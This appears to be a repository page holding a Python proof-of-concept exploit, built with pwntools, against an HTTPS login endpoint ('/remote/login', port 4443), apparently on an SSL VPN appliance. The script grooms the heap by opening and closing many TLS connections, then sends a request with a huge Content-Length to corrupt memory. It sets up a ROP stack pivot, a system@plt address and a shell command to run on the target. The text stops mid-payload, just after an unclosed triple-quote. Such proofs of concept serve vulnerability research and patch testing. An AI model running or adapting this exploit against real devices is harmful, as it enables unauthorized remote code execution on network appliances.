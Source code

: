 ​​

poc

```
import socket
import ssl
from pwn import *
import pwn

path = "/remote/login".encode()
content_length = ["2147483647", "666666", "123412"]
content_length = ["666666"]
content_length = ["2147483647"]
content_length = ["115964116992"]

ip = "192.168.213.133"
port = 4443

# rdx --&gt; data
stack_povit = 0x0000000001350680 # push rdx ; pop rsp ; add ebx, ebp ; ret

system_plt = 0x043ECC0

writeable_address = 0x047759F4

cmd = "/bin/busybox id &gt;&gt; /tmp/pwn.log\x00"

def create_ssl_ctx():
    _socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    _socket.connect((ip, port))
    _default_context = ssl._create_unverified_context()
    _socket = _default_context.wrap_socket(_socket)
    return _socket

socks = []

for i in range(60):
    sk = create_ssl_ctx()
    data = b"POST " + path + b" HTTP/1.1\r\nHost: 192.168.232.129\r\nContent-Length: 100\r\nUser-Agent: Mozilla/5.0\r\nContent-Type: text/plain;charset=UTF-8\r\nAccept: */*\r\n\r\na=1"
    sk.sendall(data)
    socks.append(sk)

for i in range(20, 40, 2):
    sk = socks[i]
    sk.close()
    socks[i] = None

CL = "115964116992"
data = b"POST " + path + b" HTTP/1.1\r\nHost: 192.168.232.129\r\nContent-Length: " + CL.encode() + b"\r\nUser-Agent: Mozilla/5.0\r\nContent-Type: text/plain;charset=UTF-8\r\nAccept: */*\r\n\r\na=1"

exp_sk = create_ssl_ctx()

for i in range(20):
    sk = create_ssl_ctx()
    socks.append(sk)

exp_sk.sendall(data)

payload = cyclic(40000)
payload = b"x" * (3613 - 192)

"""
```